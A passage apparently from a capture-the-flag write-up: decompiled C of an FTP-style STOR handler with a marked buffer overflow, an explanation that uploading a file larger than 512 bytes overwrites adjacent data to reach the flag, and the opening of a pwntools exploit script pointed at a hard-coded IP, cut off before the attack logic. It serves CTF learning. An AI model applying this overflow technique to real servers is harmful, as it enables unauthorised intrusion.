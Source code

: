 ```c
sub_4014F8(*(_DWORD *)a1, "transfer starting.\n");
while ( 1 )
{
    v6 = recv(*(_DWORD *)(a1 + 4), byte_604200, 0xAuLL, 0);
    if ( v6 < 0 )
        break;
    if ( !v6 )
        goto LABEL_8;
    v5 += v6;
}

sub_4014F8(*(_DWORD *)a1, "error receiving file");

LABEL_8:
    printf("Storing file %s", *(_QWORD *)(a1 + 24));
    byte_604200[(signed __int64)(signed int)v5] = 0; // overflow vulnerability
    v3 = dword_604404++;
    LODWORD(v4) = sub_40139B(v7, v5);
    qword_604840[v3] = v4;
    sub_4014F8(*(_DWORD *)a1, "transfer complete\n");
    result = sub_4023DF(a1, 4207204LL);
```

Here in the `STOR` function, **if we upload a file that is big enough, we can overwrite the data at `0x604408`**. So it's quite simple: just create a file that is larger than 512 bytes, then upload it to the server. After that, we can download the `flag.txt` and get the flag.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

#HOST = "localhost"
HOST = "54.175.183.202"
PORT = 12012
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
#context.arch = 'i386'
#context.arch = 'arm'
#context.arch = 'aarch64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

```